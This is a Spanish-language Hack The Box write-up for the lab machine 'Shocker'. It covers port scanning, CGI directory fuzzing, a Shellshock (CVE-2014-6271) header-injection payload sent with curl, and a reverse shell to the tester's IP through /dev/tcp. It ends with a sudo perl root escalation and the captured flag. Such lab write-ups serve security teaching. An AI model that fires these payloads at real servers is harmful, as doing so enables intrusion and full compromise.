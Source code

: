 ```yaml
---
layout: single
title: Shocker - Hack The Box
excerpt: "Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers. "
date: 2024-04-10
classes: wide
header:
  teaser: /assets/images/htb-shocker/shocker.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Perl
  - ShellShock
  - Directorios
---
```


![](/assets/images/htb-shocker/shocker.png)

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers. 

## Portscan

```
# Nmap 7.94SVN scan initiated Wed Apr 10 18:12:50 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allports 10.10.10.56
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.56 ()	Status: Up
Host: 10.10.10.56 ()	Ports: 80/open/tcp//http///, 2222/open/tcp//EtherNetIP-1///
# Nmap done at Wed Apr 10 18:13:09 2024 -- 1 IP address (1 host up) scanned in 18.83 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Wed Apr 10 18:18:19 2024 as: nmap -sCV -p80,2222 -Pn -oN targeted 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 10 18:18:32 2024 -- 1 IP address (1 host up) scanned in 12.54 seconds

```
## Analisis http

Vemos que la página http no contiene nada interesante, simplemente una imagen, asi que lo único que nos queda es buscar directorios existentes, mediante la herramienta WFUZZ que fuzzea los posibles directorios.
```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/                   
```
Esto nos devuelve varios resultados, lo mas importante es el cgi-bin, que sabemos que almacena scripts, asi que vamos a buscar mas directorios dentro de cgi-bin:

```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z 

000000373:   200        7 L      18 W       119 Ch      "user - sh" 
```
Vamos a ver que nos devuelve el script user.sh:

```
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"                                                                                                                                                                      130 ⨯
Content-Type: text/plain

Just an uptime test script

 12:44:06 up 33 min,  0 users,  load average: 0.03, 0.04, 0.01

```
Este script no devuelve nada interesante pero vamos a ver si el ataque shellshock funcionaría

## ShellShock

Vamos a usar el script de nmap para ver si es vulnerable:
```
nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 18:49 CEST
Nmap scan report for 10.10.10.56
Host is up (0.075s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10

Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds

```
Vamos a capturar la interfaz tun0, y vamos a hacer la misma petición:
```
tshark -w Captura.cap -i tun0    
```

Y ahora vamos a analizar el contenido, concretamente el tcp.payload:
```
tshark -r Captura.cap -Y  "http" -Tfields -e "tcp.payload" 2>/dev/null

```
Esto nos devuelve un codigo en hexadecimal asi que vamos a pasarlo:

```
tshark -r Captura.cap -Y  "http" -Tfields -e "tcp.payload" 2>/dev/null | xxd -ps -r
HTTP/1.1 400 Bad Request
Date: Wed, 10 Apr 2024 16:59:49 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>
GET /cgi-bin/user.sh HTTP/1.1
Cookie: () { :;}; echo; echo -n artnzjb; echo tteblsk
Referer: () { :;}; echo; echo -n artnzjb; echo tteblsk
Connection: close
User-Agent: () { :;}; echo; echo -n artnzjb; echo tteblsk
Host: 10.10.10.56

1


1b
Just an uptime test script

1


3f
 12:59:50 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00

2



0

```

Vemos que se prueba el ataque shellshock en varios campos, ahora vamos a intentar introducir cosas en user-agent a ver si se puede ejecutar comandos:
```
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo; /usr/bin/whoami"
shelly

```
Y efectivamente, se pueden ejecutar comandos.


## Intrusión

Vamos a intentar mandarnos una reverse shell, a nuestra ip por el puerto 443
```
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo; /bin/bash -i >& /dev/tcp/10.10.16.7/443 0>& 1"
```
Nos ponemos en escucha por el puerto 443(nc -nvlp 443). Y estamos dentro.

## Escalada de privilegios

En el directorio home encontramos la flag del usuario.

Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra disponible, pero vamos a usar otra técnica ya que esta la explotamos mucho.
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

Vemos que el comando perl se puede usar sin contraseña, asi que vamos a buscar en https://gtfobins.github.io/ que tenemos muchas vulnerabilidades explicadas, y si buscamos perl, y shell, encontramos el comando a ejecutar:
```
sudo perl -e 'exec "/bin/sh";'
whoami
root
cd /root/
ls
root.txt
cat root.txt
d5ffd2d03656c0208d008ef09a7e5465

```
Ahora ya tenemos todo.
